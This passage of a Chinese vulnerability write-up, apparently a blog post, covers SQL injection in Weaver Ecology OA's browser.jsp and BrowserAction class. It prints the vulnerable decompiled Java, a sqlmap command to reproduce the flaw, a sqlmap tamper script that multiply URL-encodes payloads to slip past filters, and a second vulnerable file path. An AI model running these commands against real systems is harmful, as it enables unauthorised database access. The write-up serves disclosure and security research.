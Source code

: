 ```
public voidlistRemindType() {      try {          newMeetingBrowser();          this.keyword = URLDecoder.decode(this.keyword, "UTF-8");          if (this.pageInfo.getPageNo() > 0) {              this.pageInfo.setPageNo(this.pageInfo.getPageNo());          }          RecordSetvar1=newRecordSet();          Stringvar2=" select count(0) as count from meeting_remind_type t1  where isuse=1 ";          if (StringUtils.isNotEmpty(this.keyword)) {              var2 = var2 + " and name like '%" + this.keyword + "%'";          }          var1.executeSql(var2);          intvar3=0;          if (var1.next()) {              var3 = Util.getIntValue(var1.getString("count"), 0);          }          this.pageInfo.setTotalCount(var3);          Stringvar4=" from  meeting_remind_type t1  ";          Stringvar5="t1.id as id,t1.name as name";          Stringvar6=" where isuse=1 ";          if (StringUtils.isNotEmpty(this.keyword)) {              var6 = var6 + " and t1.name like '%" + this.keyword + "%' ";          }          Stringvar7="t1.id";          Stringvar8="t1.id";          log.info("select " + var5 + var4 + " where " + var6);          this.pageInfo.setResult(this.getLimitPageData(var5, var4, var6, var7, var8, 1, this.pageInfo.getPageNo(), this.pageInfo.getPageSize(), 3));      } catch (Exception var9) {          var9.printStackTrace();      }  }
```  
  
从代码中可以看到在sql语句中拼接了this.keyword  
```
var2 = var2 + " and name like '%" + this.keyword + "%'";  
```  
### 漏洞复现  
```
python sqlmap.py -r 1.txt --tamper=urlencode3 --batch --random-agent --level 3
```  
#### tamper 脚本  
```
#!/usr/bin/env pythonfrom lib.core.enums import PRIORITY__priority__ = PRIORITY.LOWdefdependencies():    pass# URL encoding for all charactersdeftamper(payload, **kwargs):    encoded_payload = ''.join(['%' + format(ord(c), 'x') for c in payload])    encoded_payload = ''.join(['%' + format(ord(c), 'x') for c in encoded_payload])    encoded_payload = ''.join(['%' + format(ord(c), 'x') for c in encoded_payload])    encoded_payload = encoded_payload.replace(' ', '%20')    return encoded_payload
```  
## 捡到CNVD证书  
  
从上一个 browser.jsp 注入漏洞中发现，其他目录也存在该文件  
  
漏洞文件路径：\ecology\mobile\plugin\crm\browser.jsp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz7hRT2jhFdwf0SqAbATANAXWQjO0NWesbJz7gB0SV6NOTnlZnZjNuCHgg8Cqmib6ic2Zibey43OW2lXw/640?wx_fmt=png&from=appmsg "")  
  
Keyword   
参数传入了 BrowserAction   
类中，并且在类中的方法中sql语句拼接了 Keyword   
参数，导致sql注入漏洞  
  
ecology\classbean\weaver\mobile\webservices\common\BrowserAction.class  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz7hRT2jhFdwf0SqAbATANAXqgQ2Y9w0ohtsvo6mCSxafQ7tTlM9xGia1Zr93b3NicB0icaaI1OtzSNJQ/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现按照上面  
browser.jsp  
  